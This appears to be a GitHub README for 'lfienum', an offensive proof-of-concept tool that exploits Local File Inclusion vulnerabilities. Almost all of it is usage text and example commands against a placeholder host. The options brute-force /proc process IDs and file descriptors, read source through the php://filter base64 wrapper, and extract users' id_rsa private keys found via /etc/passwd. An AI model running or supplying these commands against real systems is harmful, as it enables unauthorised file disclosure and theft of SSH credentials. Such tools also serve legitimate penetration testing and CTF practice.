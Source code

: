 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```zsh
Local File Inclusion Enumerator v1.0 by 0bfxgh0st*
Usage python3 lfienum <url> <option>

Options:

    --pids <n>           Bruteforce from 0 to <n> process id
    --pid  <n>           Single process id
    --fd   <n>           Bruteforce /proc/self/fd/X from 0 to <n> (default is set to 30)
    --wrapper            (php://filter/convert.base64-encode/resource=)
    -w or --wordlist     Use a custom wordlist
    -k or --key          Extract id_rsa key

Last positional argument:

    -vvv                 Verbose show package stats
    --only-url           Dump urls only

Examples:

    python3 lfienum "http://ghost.server/index.php?page="
    python3 lfienum "http://ghost.server/index.php?page=" --pids 999
    python3 lfienum "http://ghost.server/index.php?page=" --pid 1
    python3 lfienum "http://ghost.server/index.php?page=" --fd
    python3 lfienum "http://ghost.server/index.php?page=" --wrapper index.php
    python3 lfienum "http://ghost.server/index.php?page=" --wordlist wordlist.txt
    python3 lfienum "http://ghost.server/index.php?page=" --key
```
Auto id_rsa key extraction from /etc/passwd, check `def IdRSA():` function
